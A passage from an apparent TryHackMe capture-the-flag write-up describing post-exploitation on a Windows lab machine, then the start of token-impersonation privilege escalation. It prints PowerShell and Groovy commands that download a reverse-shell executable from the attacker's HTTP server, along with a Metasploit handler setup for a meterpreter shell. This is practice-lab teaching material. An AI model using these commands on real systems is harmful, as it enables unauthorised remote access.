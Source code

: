     After creating this payload, download it to the machine using the same method in the previous step:
    
    **`powershell "(New-Object System.Net.WebClient).Downloadfile('http://your-thm-ip:8000/shell-name.exe','shell-name.exe')"`**
    
    Ok. SO a word about this: getting this simple payload onto the target was for me way more difficult and cumbersome than it should have been. I simply tried to download it from the command line on the target, but every time the http request would go through, then hang and nothing would download, which caused me to have to exit the shell and redo the initial exploit to get back on.
    
    ![image 15](https://github.com/user-attachments/assets/6b5b65f1-c73f-4ec5-883c-f65a828876cd)

    
     
    
    ![image 16](https://github.com/user-attachments/assets/9dbf7ac5-0d85-4127-974e-013a54685a45)

    
    I finally had enough frustration and decided to put the above payload in groovy format and execute it on the script console like earlier in order to get it onto the target machine. Heres the payload in groovy:
    
    def cmd = 'powershell -Command "(New-Object System.Net.WebClient).DownloadFile(\'[http://10.10.154.193:8000/reverse.exe\\](http://10.10.154.193:8000/reverse.exe%5C%5C)', \'C:\\Users\\bruce\\reverse.exe\')"'
    def proc = cmd.execute()
    proc.waitFor()
    
    ![image 17](https://github.com/user-attachments/assets/fe23b779-72ed-4bd3-92fb-dd1b06fd651e)

    
    IDK maybe im missing something but this was the only way I got it to work. ANYWAYS.
    
    Before running this program, ensure the handler is set up in Metasploit:
    
    **`use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST your-thm-ip set LPORT listening-port run`**
    
    This step uses the Metasploit handler to receive the incoming connection from your reverse shell. Once this is running, enter this command to start the reverse shell
    
    **`Start-Process "shell-name.exe"`**
    
    This should spawn a meterpreter shell for you!
    
    For the above step I simply ran .\reverse.exe from the command line of the target machine and recieved my meterpreter shell:
    
    ![image 18](https://github.com/user-attachments/assets/ea49ae71-9a35-4e1b-a4c5-36982de37b33)

    
    ## PrivEsc:
    
    OK FINALLY lets move on to privesc. The room provides really good step by step instructions (don't forget to run the command ‘shell’ to drop into a system shell): 
    
    Now that we have initial access, let's use token impersonation to gain system access.
    
    Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
    